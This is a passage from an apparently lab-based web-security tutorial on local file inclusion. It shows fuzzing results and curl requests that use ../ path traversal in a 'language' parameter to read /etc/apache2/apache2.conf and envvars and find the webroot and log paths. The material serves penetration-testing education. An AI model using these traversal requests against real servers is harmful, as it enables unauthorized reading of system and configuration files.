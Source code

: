```shell-session
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]
```

As we can see, the scan returned over 60 results, many of which were not identified with the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, which shows us that a precise scan is important in certain cases. Now, we can try reading any of these files to see whether we can get their content. We will read (`/etc/apache2/apache2.conf`), as it is a known path for the apache server configuration:

```shell-session
alakin2504@htb[/htb]$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
```

As we can see, we do get the default webroot path and the log path. However, in this case, the log path is using a global apache variable (`APACHE_LOG_DIR`), which are found in another file we saw above, which is (`/etc/apache2/envvars`), and we can read it to find the variable values:


```shell-session
alakin2504@htb[/htb]$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars

...SNIP...
export APACHE_RUN_USER=www-data
export APACHE_RUN_GROUP=www-data
# temporary state file location. This might be changed to /run in Wheezy+1
export APACHE_PID_FILE=/var/run/apache2$SUFFIX/apache2.pid
export APACHE_RUN_DIR=/var/run/apache2$SUFFIX
export APACHE_LOCK_DIR=/var/lock/apache2$SUFFIX
# Only /var/log/apache2 is handled by /etc/logrotate.d/apache2.
export APACHE_LOG_DIR=/var/log/apache2$SUFFIX
...SNIP...
```

As we can see, the (`APACHE_LOG_DIR`) variable is set to (`/var/log/apache2`), and the previous configuration told us that the log files are `/access.log` and `/error.log`, which have accessed in the previous section.